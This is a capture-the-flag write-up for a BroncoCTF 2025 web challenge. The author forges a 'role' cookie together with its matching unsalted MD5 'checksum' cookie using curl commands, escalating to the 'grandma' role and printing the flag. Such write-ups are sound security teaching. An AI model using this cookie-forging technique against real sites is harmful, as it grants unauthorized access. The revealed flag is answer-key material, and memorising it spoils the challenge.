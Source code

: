 # Grandma's Secret Recipe

## Background

Grandma has been baking her world-famous cookies for decades, but she’s always kept her secret recipe locked away. Nobody—not even her most trusted kitchen helpers—knows the full list of ingredients.<br>
She insists it’s all about "the perfect balance of love and a pinch of mystery", but deep down, you know there’s more to it. Rumors say only Grandma herself is allowed to see the recipe, hidden somewhere in her kitchen.<br>
But, you were hired by Grandpa, who divorced her because she refused to share the recipe. Can you figure out the true secret behind her legendary cookies? 🍪👵

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image.png)

- **Difficulty: Easy**
- **This challenge doesn't have source code**

## Enumeration

Access the link, it leads me to the page that has 3 buttons: `Login`, `Logout`, `Grandma's Pantry`.

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-1.png)

The page says that I'm logging in as a kitchen and only Grandma can view the secret recipe. So I decided to click the button `Grandma's Pantry` to see if I can get the secret recipe.

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-2.png)

It is clearly that we can't get the secret recipe. This challenge seems to be related to cookies, so I will check on the cookies.

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-3.png)

This page has two cookies: `checksum` and `role`. The `role` cookie contains the value of `"kitchen helper"` which role I'm currently login as. First, I will try to change the value of `role` to `Grandma` or `grandma` to see if I can get the recipe.<br>
I can change the value of the cookie directly, but I will use curl to improve my Linux skill:

```bash
curl --cookie "role=\"Grandma\""  https://grandma.web.broncoctf.xyz/grandma
```

Both value `"Grandma"` and `"grandma"` can't get me the recipe. I will only show the result of `"Grandma"` value:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-4.png)

Hmm, maybe I will need the use of `checksum` cookie. This cookie contains a value like a `MD5` hash. I will check if the value of `checksum` cookie is gotten from `MD5` hashing the value of `role` cookie. We need to test if the `checksum` cookie hashes the value of `role` cookie inside the quotes or includes the quotes as well.

```bash
echo -n "kitchen helper" | md5sum
```

And yes! Exactly what we think, the value of `checksum` cookie is really gotten from MD5 hashing the value of `role` cookie (without quotes):

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-5.png)

## Exploitation

Now, we will test two cases of cookies:
1. `checksum`: MD5hash(`grandma`), `role`: `"grandma"`
2. `checksum`: MD5hash(`Grandma`), `role`: `"Grandma"`

First case:

```bash
echo -n "grandma" | md5sum
#a5d19cdd5fd1a8f664c0ee2b5e293167
curl --cookie "checksum=a5d19cdd5fd1a8f664c0ee2b5e293167;role=\"grandma\""  https://grandma.web.broncoctf.xyz/grandma | grep "bronco"
```

And with the first case, we got the flag!

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-6.png)

- **Flag: `bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}`**

## Conclusion

What we've learned:

1. Cookie manipulation